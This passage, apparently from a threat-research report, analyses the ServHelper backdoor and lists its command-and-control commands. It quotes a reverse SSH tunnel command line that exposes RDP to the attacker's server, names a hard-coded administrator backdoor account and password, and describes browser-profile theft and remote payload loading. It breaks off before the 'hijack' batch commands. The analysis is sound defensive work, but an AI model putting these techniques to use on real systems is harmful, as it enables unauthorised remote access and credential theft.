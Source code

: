 chistka12.17
noP_19
nonRDP
no24
ny_upd
The “resp” parameter contains responses to commands received from the controller.
An example command sent from the C&C server to the infected machine can be seen in the Fiddler screenshot in Figure 4 above. It contains a command, carrot (“^”) delimiter, and command arguments. We observed the following commands in the malware:
nop
Implements a keep-alive type of functionality. The infected machine responds to the C&C server with a “nop ok” message.
tun (“tunnel” variant only)
Sets up a reverse SSH tunnel connecting the C&C server to the infected system’s RDP port (3389). In earlier versions, a loader component performed the initial setup for this and other commands by:
Extracting and dropping an OpenSSH binary from its PE resources
Extracting, dropping, and configuring the RDP Wrapper Library software from its PE resources
Creating a new user “supportaccount” with a password of “Ghar4f5”
Adding this user to the “Remote Desktop Users” and “Administrators” groups
In more recent versions, this functionality of the loader component was integrated into the core ServHelper code, using built-in Windows remote desktop support instead of a third-party software package. This command sets up a reverse SSH tunnel by executing the dropped OpenSSH binary with the following command line arguments:
-N -R <remote port>:localhost:3389 tunnel@<C&C server>
Once configured, ServHelper sends a “tun ok\r\nport:<remote port> tun pid:<SSH process id>” to the C&C server.
slp
Sets a sleep timeout.
fox (“tunnel” variant only)
Copies a Firefox web browser profile from one user to another. Earlier versions used the Windows “xcopy” command. Later versions download a self-extracting RAR file from the C&C server (/cp/cp.exe) and decompress it using the password “123”. One of the files in this archive is a piece of software known as "Runtime's Shadow Copy" and it is used to copy the web browser profiles.
chrome (“tunnel” variant only)
Similar to the “fox” command but for Chrome web browser profiles.
killtun (“tunnel” variant only)
Kills an SSH tunnel process associated with a particular remote port. Once killed, it sends a “killtun ok” message to the C&C server.
tunlist (“tunnel” variant only)
Gets a list of all active SSH tunnels and responds to the C&C server with a message containing “active tun: <remote port>” entries for each active tunnel.
killalltuns (“tunnel” variant only)
Kills all SSH tunnel processes.
shell
Executes a shell command and sends the response to the C&C server.
load
Downloads and runs an executable from a specified URL. Responds to the C&C server with either “load no param ok” or “load param ok” depending if any command-line arguments were passed to the downloaded executable.
socks (“tunnel” variant only)
Similar to the “tun” command, but allows a reverse SSH tunnel to be built between the C&C server to any server/port (as specified by the command argument) through the infected system. Once configured, a “socks ok\r\nport:<remote port> tun pid:<SSH process id>” message is sent to the C&C server.
selfkill
Removes the malware from the infected machine.
loaddll (“downloader” variant only)
A newer command that has only been observed in the “downloader” variant. Similar to the “load” command, but for DLLs.
bk (“tunnel” variant only)
A newer command similar to the “tun” command. “bk” allows the reverse SSH tunnel to be set up using a C&C specified remote host instead of the hardcoded C&C server.
hijack (“tunnel” variant only)
A newer command that appears to hijack a user account with a known password (“123”). It does so by creating and scheduling a task “test” to run a batch file containing the following commands: